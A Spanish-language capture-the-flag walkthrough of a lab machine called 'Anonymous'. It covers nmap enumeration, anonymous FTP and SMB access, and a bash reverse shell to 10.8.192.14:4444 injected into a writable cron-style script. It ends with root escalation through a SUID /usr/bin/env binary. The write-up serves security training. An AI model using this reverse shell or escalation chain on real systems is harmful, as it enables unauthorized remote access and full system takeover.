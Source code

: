 # Anonymous

# Conectividad

![image](https://github.com/user-attachments/assets/c5118fad-9e91-4d50-b070-7ca8181bdb79)

- Damos por hecho que es una máquina Linux (ttl=64)

# Enumeración

```
udo nmap -sCV -T4 --min-rate 4000 10.10.13.16
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-21 09:36 GMT
Nmap scan report for 10.10.13.16
Host is up (0.00027s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.104.182
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:0D:E6:1D:DF:8B (Unknown)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-01-21T09:37:09+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-21T09:37:09
|_  start_date: N/A
```

- 21 / FTP - Con Anonymous
- 22 / SSH
- 139 / SMB
- 445 / SMB

Nos conectamos al FTP por Anonymous, vemos que tenemos tres ficheros:

- clean.sh
- removed_files.log
- to_do.txt

No vemos información realmente importante por aquí, vamos a probar por el smb

Encontramos el directorio pics

```
smbclient -L ip
```

Dentro del mismo directorio encontramos dos imagenes

![image](https://github.com/user-attachments/assets/21e73036-f4a4-41a3-9736-9ebbd8cb803c)

- corgo2.jpg
- puppos.jpeg

Vamos a ver que podemos hacer

Probando diferentes formas ya que estas dos imagenes si que ocultan algo en su interior, pero necesitamos las passwords. 

Nos hemos saltado que en el samba el .sh tiene permisos de todo, con lo cual le podemos probar a meter una rev shell


```
#!/bin/bash
bash -i >& /dev/tcp/10.8.192.14/4444 0>&1
```

![image](https://github.com/user-attachments/assets/452d2ede-61d5-4fbc-be37-91c0a786bce6)

Una vez dentro enumeraremos el directorios y explotaremos para hacernos root

Sacamos la primera flag de user.txt

# Explotación

El famoso comando para ver a que tiene permisos el root

```
find / -user root -perm -u=s 2>/dev/null
```

/usr/bin/passwd
/usr/bin/env ← — here
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/pkexec

Después de ir probando encontramos que el /usr/bin/env tiene una forma de escalar privilegios gracias a gtfobins, parece ser que las dos imagenes no tenian que ver con sacar las flags, luego podemos mirar para sacarlas

![image](https://github.com/user-attachments/assets/40170a51-df77-4e12-842b-6a651482ef37)

GG!!!!!!!!!!!!!!
